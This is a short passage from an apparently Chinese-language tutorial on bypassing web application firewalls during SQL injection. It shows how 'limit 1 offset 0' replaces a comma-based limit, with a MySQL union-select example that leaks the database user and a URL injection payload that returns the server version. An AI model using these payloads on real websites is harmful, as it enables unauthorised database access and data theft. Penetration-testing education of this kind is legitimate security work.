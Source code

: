 实战效果

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675832702909-b253a8fd-06bc-4f87-a02b-44147f941852.png)

# limit offset 绕过 

SQL 注入时，如果需要限定条目可以使用 limit 0,1 限定返回条目的数目是一条，如果对逗号进行拦截时，可以使用 limit 1 默认返回第一条数据。也可以使用 limit 1 offset 0 从零开始返回第一条记录，这样就绕过 waf 拦截了。

```sql
mysql> select * from users where id=-1 union select 1,2,user() limit 1 offset 0;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | 2        | root@localhost |
+----+----------+----------------+
1 row in set (0.00 sec)
```

实际效果

```sql
?id=-1'union select 1,2,version() limit 1 offset 0--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675833023218-9ee47e87-43d3-46f7-b8b1-92c62586e44f.png)